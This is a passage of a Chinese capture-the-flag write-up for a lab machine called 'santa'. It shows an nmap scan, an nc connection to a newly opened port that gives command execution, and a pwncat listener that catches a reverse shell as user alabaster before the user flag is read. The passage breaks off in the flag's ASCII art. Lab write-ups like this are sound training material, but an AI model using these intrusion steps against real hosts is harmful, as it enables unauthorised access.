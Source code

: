 靶机启动后，访问 `/santa` 这个路由之后，这个路由就失效了，同时首页也会发生变化

:::

## Trick or treat ?

在重启靶机后，再次扫描端口

```plaintext
Nmap scan report for 192.168.56.124
Host is up (0.00047s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 9.0p1 Ubuntu 1ubuntu8.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 76:06:46:f1:83:85:a4:22:8c:2b:12:d4:2d:58:27:49 (ECDSA)
|_  256 76:54:26:9d:e8:4a:72:5e:6e:7f:68:58:20:6e:bb:d4 (ED25519)
80/tcp    open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Merry Christmas to everyone - Santa Claus
65415/tcp open  unknown
```

发现新开放了一个端口

尝试连接 65415 这个端口，得到

```shell
┌─[randark@parrot]─[~]
└──╼ $ nc 192.168.56.124 65415
GET /
ls
user.txt
a
ls
user.txt
```

## User - alabaster

```shell
┌─[randark@parrot]─[~]
└──╼ $ pwncat-cs -lp 8888
[18:00:50] Welcome to pwncat 🐈!
[18:00:54] received connection from 192.168.56.124:36016
[18:00:54] 192.168.56.124:36016: registered new host w/ db
(local) pwncat$ back
(remote) alabaster@santa:/home$ whoami
alabaster
```

### flag - user

```shell
(remote) alabaster@santa:/home/alabaster$ cat user.txt
                 ..'''::::...
              .::'`'''':::..
        '...::'               `.----.
                              /_.--._\
                            ,  |=   |
                          ,/ \,|  =-|
                        ,/ /`\ \,   |
                      ,/ /`___`\ \,-|
                    ,/ /'.-:";-.`\ \|
                  ,/ /` //_|_|_\\ `\ \, ,/\,
                ,/ /`   ||_|_|_||   `\;/ /\ \,
              ,/ /`     ||_|_|_||   ,/ /`/\`\ \,
```